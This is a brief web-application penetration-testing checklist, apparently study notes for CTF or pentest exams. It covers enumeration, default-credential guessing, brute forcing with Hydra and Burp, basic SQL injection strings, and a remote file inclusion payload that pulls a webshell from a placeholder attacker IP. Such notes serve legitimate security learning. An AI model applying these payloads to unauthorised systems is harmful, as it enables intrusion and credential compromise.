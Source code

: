 Web App Playbook

* Feroxbuster
* Curl
* If https, view certificate
* If login page found:
   * Try basic creds (admin/admin, root/root, admin/website name, etc.)
* Try basic SQLI (`asdf' or 1=1--`, `asdf' or 1=1;`, etc.)
* F12
* What software is the server using?
* View page source
   * Look for plaintext creds
   * Software/version enumeration
* Look up default admin pages/creds for any CMS found
* Burp
*   See what how authentication requests work
*   Hydra/intruder
* Try creds found in other enumeration (services on other ports, etc., if available)
* Does the page use php?  Try basic RFI: `http://example.com/index.php?page=http://<kali ip>/<webshell.php>`
   * (use index.php, or if you find a different php file, use that)
* Cewl wordlist of the website and try logging in:
   * `cewl <http://website.com> -m 4 -w wordlist.txt`
